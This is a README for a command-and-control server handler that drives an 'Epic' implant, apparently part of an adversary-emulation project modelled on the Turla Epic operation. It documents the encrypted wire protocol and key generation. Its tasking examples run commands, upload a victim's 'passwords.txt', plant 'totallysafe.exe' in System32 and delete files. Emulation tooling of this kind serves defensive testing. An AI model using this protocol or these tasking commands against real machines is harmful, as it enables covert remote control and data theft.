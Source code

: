 # Epic HTTP(S) Handler

The Epic HTTP(S) C2 handler is the server-side counterpart for the Epic implant
and is specifically designed to interact with it over HTTP or HTTPS.

## Usage

### Configuration

To enable and configure the Epic HTTP(S) handler within the control server, edit
the `config/handler_config.yml` from the main C2 server repo. Adjust the `epic`
entry as needed.

HTTP example:

```yaml
epic:
    host: 10.0.2.8
    port: 8080
    use_https: false
    enabled: true
```

HTTPS example:

```yaml
epic:
    host: 10.0.2.8
    port: 8443
    cert_file: ""
    key_file: ""
    use_https: true
    enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in
starting up the Epic handler.

### Tasking

To submit a task for the C2 server, use the following command format:

```bash
./evalsC2client.py --set-task [UUID] 'key | value | [optional args]'
```

The `key | value` pair is converted into `key = value` format and placed into
the configuration file portion of the server's response.

The optional args are used for specific commands, as detailed below.

The keys tell the implant what to do:

- `exe` - tells the implant to execute the command contained in the value

  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | whoami'
  ```

- `result` - tells the implant to upload the file that is located at the value

  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'result | C:\users\bob\passwords.txt'
  ```

- `name` - tells the implant receive a file that the handler is sending to it, with
  the value being the path that the file contents should be written to on the implant
  and an option arg telling the handler the file that it should send

  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'name | C:\Windows\System32\totallysafe.exe | hello_world.elf'
  ```

- `del_task` - tells the implant to delete the file that is located at the value

  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'del_task | C:\Users\bob\passwords.txt'
  ```

Note: The template for the EPIC C2 handler HTML response has been taken from here: <https://securelist.com/the-epic-turla-operation/65545/>

## Components

The handler consists of an HTTP(S) web server that listens on a specified
address/port and serves the following URL endpoints:

- `POST /`, where the server expects a message from the implant that sends
  data to the server and allows the server to respond with tasking.

  The implant sends the server a POST request with an encoded, encrypted,
  and compressed JSON in the body in the following format:

  :exclamation: NOTE: the first POST request from the implant is **not**
  encrypted, but is encoded and compressed.

  ```json
  {"UUID":"<UUID>", "type":"<command type>", "data":"<data>"}
  ```

  - The `UUID` field is empty if this is the first time the implant makes
    contact with the server; otherwise, it contains the UUID assigned to it by
    the server. To allow for reproducibility, the server has two hard coded
    UUIDs that it gives out to implants. The first UUID that is given out is
    `218780a0-870e-480e-b2c5dc`, and the second is `51515228-8a7b-4226-e6e3f4`.
    If a third implant is registered, the first implant will automatically be
    deregistered, and its UUID will be given to the third implant. When a
    fourth implant is registered, the second implant is deregistered, and its
    UUID is given to the fourth implant, and so on.
  - The `type` field contains the command type of the command that was executed
    to generate the data in the `data` field.
    - `command` - the `data` field contains the results of a command that was
      run.
    - `upload` - the `data` field contains the contents of the file to be
      uploaded.
    - `download` - the `data` field contains either a success or error message
      that indicates whether the implant was able to download the file.
    - `delete` - the `data` field contains either a success or error message
      that indicates whether the implant was able to delete the file.
  - The `data` field contains base64 encoded results from the command ran for
    the previous communication cycle.

  The server will respond in the following binary format:

  ```
  |-----------------------------------------------------------|
  |      Command Id (unsigned int, 4 bytes, little endian)    |
  |-----------------------------------------------------------|
  |     Payload Size (unsigned int, 4 bytes, little endian)   |
  |-----------------------------------------------------------|
  |                         Payload                           |
  |-----------------------------------------------------------|
  | Configuration Size (unsigned int, 4 bytes, little endian) |
  |-----------------------------------------------------------|
  |                    Configuration File                     |
  |-----------------------------------------------------------|
  ```

  - The command ID starts at 0 and increments for each command sent to the
    implant.
  - The payload is any executable that the implant should execute. It is
    sent as a base64-encoded string.
  - The configuration file is an ini file that contains any configuration
    information, including sending the implant's UUID and commands to
    execute.

### Encryption

EPIC tasking is AES-256 encrypted with a new session key and IV for every
communication sent. The IV is prepended to the AES encrypted data. The AES
session key is base64 encoded and RSA encrypted then prepended to the IV and
AES encrypted data.

Altogether, the data transformations in pseudocode would look similar to the
following:

```
Base64(RSA_encrypt(Base64(AES_key)) + AES_IV + AES_encrypt(Bzip2(data)))
```

The C2 server and the implant each have an RSA key pair. The keys were
generated using the following commands:

```
# generate the private key
openssl genrsa -out private.pem 2048

# generate the public key
openssl rsa -in private.pem -outform PEM -pubout -out public.pem

# reformat to PKCS1 and DER encoding for use with CryptoPP
openssl rsa -in private.pem -traditional-out privatepkcs1.key -outform der
openssl rsa -pubin -in public.pem -RSAPublicKey_out -out publicpkcs1.key -outform der

# base64 encode the keys for use in C2 server and EPIC payload
cat privatepkcs1.key | base64
cat publicpkcs1.key | base64
```
